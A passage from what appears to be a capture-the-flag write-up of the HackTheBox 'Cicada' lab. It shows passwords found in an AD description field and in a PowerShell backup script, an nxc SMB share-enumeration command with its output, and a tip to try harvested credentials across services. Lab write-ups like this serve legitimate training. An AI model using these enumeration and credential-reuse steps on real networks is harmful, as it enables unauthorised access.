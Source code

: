I discovered that `david.orelious` had a password written in his AD description field:

```
Just in case I forget my password is aRt$Lp#7t*VQ!3
```

## Using leaked password and escalating access to a higher-priv user

With `david.orelious`'s password I enumerated shares
```bash
nxc smb 10.129.231.149 -u david.orelious  -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.129.231.149  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.149  445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.129.231.149  445    CICADA-DC        [*] Enumerated shares
SMB         10.129.231.149  445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.231.149  445    CICADA-DC        -----           -----------     ------
SMB         10.129.231.149  445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.231.149  445    CICADA-DC        C$                              Default share
SMB         10.129.231.149  445    CICADA-DC        DEV             READ            
SMB         10.129.231.149  445    CICADA-DC        HR              READ            
SMB         10.129.231.149  445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.231.149  445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.129.231.149  445    CICADA-DC        SYSVOL          READ            Logon server share 
```

I found the `DEV` share readable, and discovered a PowerShell backup script:

`Backup_script.ps1` reads:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

We now have `emily.oscars:Q!3@Lp#M6b*7t*Vt` in plaintext. 

> **What the shell?**  
> Emily’s credentials stand out:
> - The PowerShell backup script contains **Emily’s username and password in plaintext**.
> - Credentials found in scripts are often used by services or accounts with broader privileges. That makes the account worth testing across services (SMB, WinRM, RDP, etc.) for possible interactive access, while remembering it may be a non-interactive/service account in some environments.
{: .prompt-tip }
